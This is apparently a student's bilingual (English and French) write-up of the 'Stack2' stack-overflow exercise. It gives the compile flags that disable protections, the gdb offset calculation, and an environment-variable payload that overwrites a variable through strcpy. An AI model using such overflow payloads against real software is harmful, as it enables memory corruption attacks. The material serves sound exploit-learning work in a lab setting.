 # Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack2.c -o Stack2
```

2. Find
```bash
#Run in gdb
gdb ./Stacktwo
break main
run
```
![Inital](Images/InitialGDB.png)

```
print &buffer
print &modified
print (char *)&modified - (char *)&buffer 
64   #Our offset
```
![Offset](Images/OffsetResult.png)
-------------------------------------------------------------------

- For this exercise I need to change `modified` to `0x0d0a0d0a` from a Env variable called GREENIE

```bash
#No space in zsh or else error for daaaaays
#"<I" means “pack a 32-bit unsigned int in little-endian.” That yields exactly the 4-byte sequence
export GREENIE="$(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<I",0x0d0a0d0a))')"

#Print env into .bin
printf "%s" "$GREENIE" > stacktwo.bin

#Verify
printf "%s" "$GREENIE" | hexdump -C
wc -c stacktwo.bin

#run code
./Stacktwo

#SUCCESS
```
![Success1](Images/Ste1Success.png)
![Success2](Images/Ste2Success.png)
![Success3](Images/Ste3Success.png)
![Success4](Images/Ste4Success.png)

------------------------------------------------------------------

# What I learned :

Every time I run a program from shell, the shell “hands off” a copy of its environment to that new process. By doing:

```bash
export GREENIE="…your payload…"
./stack2
```

Telling the shell:
1. “Attach an environment variable called `GREENIE` with this value to _every_ process I launch from now on.”
2. When running `./stack2`, the kernel creates a new process whose _environment block_ includes `GREENIE`.
3. Inside C code, this line…

```c
variable = getenv("GREENIE");
```
- …looks up the `GREENIE` entry in that environment block and returns a pointer to its bytes.
- You then do `strcpy(buffer, variable)`, which copies _exactly_ what you set in `GREENIE` into `buffer` and (overflow!) into `modified`.

# Ce que j’ai appris

Chaque fois que je lance un programme depuis le shell, celui-ci “transmet” une copie de son environnement au nouveau processus. En faisant :

```bash
export GREENIE="…your payload…"
./stack2
```

Je demande au shell :

1. « Ajoute une variable d’environnement nommée GREENIE avec cette valeur à tout processus que je lance à partir de maintenant. »
2. Au démarrage de ./stack2, le noyau crée un nouveau processus dont le bloc d’environnement contient GREENIE.
3. Dans le code C, cette ligne :

```bash
variable = getenv("GREENIE");
```

- …cherche l’entrée `GREENIE` dans ce bloc d’environnement et renvoie un pointeur vers ses octets.
- Ensuite, `strcpy(buffer, variable)` copie exactement la valeur de GREENIE dans buffer et (overflow !) jusqu’à écraser modified.
